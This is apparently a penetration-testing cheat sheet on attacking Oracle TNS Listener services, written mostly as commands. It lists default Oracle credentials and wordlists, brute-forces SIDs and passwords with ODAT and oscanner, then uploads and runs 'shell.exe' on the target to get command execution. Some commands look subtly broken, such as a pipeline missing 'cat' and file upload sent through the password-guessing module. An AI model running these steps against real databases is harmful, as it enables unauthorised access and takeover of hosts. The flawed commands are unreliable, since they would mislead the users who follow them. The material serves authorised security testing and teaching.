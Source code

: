 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port (1521/TCP; secondary listeners can be found on ports 1522–1529).

```
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port (e.g. TCP/1522) :

```
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges (sysdba) or system operator (sysop)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login** with **patator** you need to **install**:

```
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server (its some work to change it)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default_ (169 lines)
* **MSF-1:**  _from_ admin/oracle/oracle\_login  __  /usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv (598 lines)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt_ (568 lines)
* **Nmap:** _/usr/share/nmap/nselib/data/oracle-default-accounts.lst_ (687 lines)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** (Oracle Database Attacking Tool) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** (e.g. **reverse shell**) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Install ODAT

We can install ODAT with the following commands:

```
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

As the victim machine is 64 bits, we downloaded the client basic SDK and SQLPlus from the Oracle website

```
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

Now we convert the `.rpm` files into `.deb` files and install them:

```
alien --to-deb *.rpm
dpkg -i *.deb
```

We add the environment variables to the `.zshrc`:

```
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Let's check that everything has been installed well:

```
sqlplus64
python3 odat.py --help
```

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```

